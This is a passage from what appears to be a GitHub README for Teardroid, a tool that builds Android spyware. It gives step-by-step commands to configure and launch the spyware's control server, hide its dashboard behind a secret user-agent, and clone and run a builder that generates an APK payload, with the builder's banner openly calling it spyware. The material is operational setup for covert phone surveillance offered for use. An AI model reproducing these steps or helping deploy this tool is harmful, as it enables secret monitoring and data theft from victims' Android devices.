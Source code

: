 ```bash
$ nano ./db/database.py
from deta import Deta
from os import getenv

deta = Deta(getenv("DETA_PROJECT_KEY")) => deta =  Deta("demo project key")
# replace getenv("DETA_PROJECT_KEY") with your deta.sh project key
# make sure your remove getenv
```

- open config.py and change the value of "hello" to any user_agent or text you want
- Run teardroid api

```bash
$ screen
# press enter to go inside the screen session
$ uvicorn main:app --host 0.0.0.0 --port 80
# now close your terminal windows  and we are good to go
```

- Change your user-agent of the browser with the value of USER_AGENT you have enter in config.py
- you can use this chrome extension to change user useragent [extension](https://chrome.google.com/webstore/detail/custom-useragent-string/lejiafennghcpgmbpiodgofeklkpahoe)
- Done

### IMPORTANT NOTICE

- if your hosting it on your own server you will not be able to access the dashboard if you dont change your user-agent with the same value of USER_AGENT inside config.py file.
- its to make you the dashboard more secure and to protect it.

### How to setup the builder ( generate apk payload )

- Clone Teardroid-phprat repo with the following command.

```bash
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```

- cd in the Teardroid-phprat directory, then type the command below to install all dependencies

```bash
$ pip install -r requirements.txt
```

- Run the following command to see the options that we can use with the builder.

```bash
$ python Teardroid.py
[+] Checking Python Version
[+] Python Version : 3.10 ✓
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/


Teardroid v4.0 - A tool to build teardroid spyware for Android devices. 🕷
Contact us : https://t.me/script1337 🚀
usage: Teardroid.py [-h] [-v] [-b]

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid 🥴
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid] 😷
```
